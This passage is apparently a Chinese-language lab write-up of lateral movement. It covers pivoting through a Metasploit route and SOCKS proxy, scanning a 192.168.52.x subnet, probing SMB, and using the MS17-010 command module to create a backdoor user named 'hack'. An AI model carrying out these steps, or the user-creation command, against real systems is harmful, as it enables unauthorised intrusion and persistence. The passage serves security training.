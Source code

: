 ### 搭建代理–横向渗透

### 由于已经发现win7存在内网`192.168.52`的c段，搭建代理通道

### 首先添加路由,并将会话切至后台

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/89c270848e19b7ee2adb05c213b64f1c.png" alt="89c270848e19b7ee2adb05c213b64f1c.png" width="672" height="448" class="jop-noMdConv">

### 设置socks代理

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/a5f97594e23c016057808cd2c2101c67.png" alt="a5f97594e23c016057808cd2c2101c67.png" width="714" height="495" class="jop-noMdConv">

### 再设置proxychains代理配置为msf的socks代理端口`/etc/proxychains4.conf`

### ![5de723669abd12097b48718fcf258ae5.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/5de723669abd12097b48718fcf258ae5.png)

### 探测52网段主机存活

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/4a193f55aec5181a4eb84bb00418077d.png" alt="4a193f55aec5181a4eb84bb00418077d.png" width="707" height="336" class="jop-noMdConv">

首先先`win2003`–`192.168.52.141`

使用`use auxiliary/scanner/portscan/tcp `对`192.168.52.141`进行端口扫描

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/d1434ac9f728648054b21c4e15252cec.png" alt="d1434ac9f728648054b21c4e15252cec.png" width="776" height="302" class="jop-noMdConv">

可以看到开启了445端口，探测下samba服务`use auxiliary/scanner/smb/smb_version`

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/de2abf95fff0e219af5dc0d615b8a896.png" alt="de2abf95fff0e219af5dc0d615b8a896.png" width="764" height="132" class="jop-noMdConv">

测试smb相关的漏洞

`use auxiliary/admin/smb/ms17_010_command`

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/466ee5a98ddb1f51f3989f0694b2770e.png" alt="466ee5a98ddb1f51f3989f0694b2770e.png" width="801" height="386" class="jop-noMdConv">

设置命令–>添加一个用户并设置管理员权限，然后开启3389端口

`set command "net user hack #hack123@ /add" 创建用户`
